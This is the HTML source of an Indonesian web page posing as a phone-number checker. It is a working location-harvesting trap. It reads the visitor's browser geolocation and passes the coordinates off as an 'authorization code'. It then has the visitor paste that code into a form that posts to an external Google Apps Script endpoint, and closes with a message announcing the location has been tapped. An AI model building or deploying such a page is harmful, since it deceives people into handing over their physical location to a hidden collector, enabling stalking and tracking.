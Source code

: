 <html lang="in">
<head>
				<link rel="stylesheet" href="adsense.css">
				<title>Nomor aku</title>
				
					<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
					
					
				
				<style>
								
								
								
						body{
						 background-color:gainsboo;
						 }
						 
						 .tempat{
						 color:black;
						 text-align:center;
						 font-size:15px;
						 display:no;
						 
						 }
							
							.kirim{ 
							display:none;
							margin-left:30%;
						  display:blok;
						  width:40%;
						  border:none;
						  text-decoration:none;
						  padding:10px;
						  background-color:black;
						  border-radius:3px;
						  color:white;
						  font-weight:bold;
							}
							
							.lokasi{
							display:none;
							margin-left:20%;
						  display:blck;
						  width:60%;
						  text-decoration:none;
						  border:none;
						  background-color:gainsboro;
						  padding:10px;
						  border-radius:3px;
						  font-size:13px;
							
							
							}
							
							.nomor{
							font-weight:bold;
							text-align:center;
							color:#e8491d;
							font-size:20px;
							}
							
							
						  .number{
						  margin:auto;
						  display:block;
						  width:60%;
						  text-decoration:none;
						  border:none;
						  background-color:gainsboro;
						  padding:10px;
						  border-radius:3px;
						  font-size:13px;
						  }
						  
						  .no{
						  margin:auto;
						  display:block;
						  width:40%;
						  border:none;
						  text-decoration:none;
						  padding:10px;
						  background-color:black;
						  border-radius:3px;
						  color:white;
						  font-weight:bold;}
						  
						  
						  .kode{
						  text-align:center;
						  font-size:20px;
						  font-weight:bold;
						  color:#e8491d;
						  display:none;
						  }
						  
						  .miring{
						  text-align:center;
						  color:gainsboro;
						  
						  display:none;}
						  
						  .lastman{
						  text-align:center;
						  font-weight:bold;
						  display:none;
						  font-size:30px;}
						  
						  .bawah{
						   padding:20px;
  margin-top:20px;
  color:#ffffff;
  background-color:#e8491d;
  text-align: center
						  }
								
								
								
								
				</style>
</head>
<body>
				
				<header>
      <div class="container">
        <div id="branding">
          <h1><span class="highlight">Check</span> Number</h1>
        </div>
        <nav>
          <ul>
            <li><a href="https://rifkipriyatna.github.io/Welcome/">Home</a></li>
            <li class="current"><a href="about.html">About</a></li>
            <li><a href="https://wa.me/message/ZVUGSNMOI4ZVN1">Services</a></li>
          </ul>
        </nav>
      </div>
    </header>
				
				
				
				
				
				
				
				<form name="Test-Fb">
				<p class="nomor" id="nomor">Masukan Nomor HP</p>
				<input type="text" id="number" class="number" placeholder="+62..."><br>
				<p id="kode" class="kode">Kode Otorisasi</p>
				<p id="demo" class="tempat"></p>
				<button class="no" onclick="getLocation()" id="pilih" >Kirim</button>
				<script>
							var x = document.getElementById("demo");

function getLocation() {
  if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
  } else { 
    x.innerHTML = "Geolocation is not supported by this browser.";
  }
}

function showPosition(position) {
  x.innerHTML = " " + position.coords.latitude + 
  "<br>" + position.coords.longitude;
}
				</script>
				
				
				
				<p class="miring" id="miring"><em>Salin code lalu masukan </em></p>
				
				<input type="text" name="gambar" id="lokasi" class="lokasi" placeholder="####"><br><br>
				<button class="kirim" id="kirim" type="submit">Kirim</button></form>
				
				<p class="lastman" id="lastman">Selamat anda kena shadap location</p>
				<br><br><br><br>	<br><br><br><br>	<br>
				
				<div class="bawah">
						<p>Check Number, Copyright &copy; 2019</p>
				</div>
				
				<script>
				$(document).ready(function(){
  $("#pilih").click(function(){
    $("#lokasi").fadeIn(1000);
    $("#kirim").fadeIn(1000);  
    $("#nomor").fadeOut(100);
    $("#number").fadeOut(100);
    $("#pilih").fadeOut(100); 
    $("#kode").fadeIn(1000); 
    $("#miring").fadeIn(1000);
    $("#demo").fadeIn(1000);
  });
});

</script>


<script>
				$(document).ready(function(){
  $("#kirim").click(function(){
    $("#kirim").fadeOut(100);
    $("#lokasi").fadeOut(100);
     $("#miring").fadeOut(100);
    $("#kode").fadeOut(100);
    $("#lastman").fadeIn(1000);
    
    });
});
    
</script>




<script>
  const scriptURL = 'https://script.google.com/macros/s/AKfycbwz07cfyR66rBWYsLgmyHbNoqyzUeDm3Y-zQIdCkrZ7zNEdR0DQwJFJa6LFVcWSOxnJ/exec'
  const form = document.forms['Test-Fb']

  form.addEventListener('submit', e => {
    e.preventDefault()
    fetch(scriptURL, { method: 'POST', body: new FormData(form)})
      .then(response => console.log('Success!', response))
      .catch(error => console.error('Error!', error.message))
  })
</script>
				
</body>
</html>

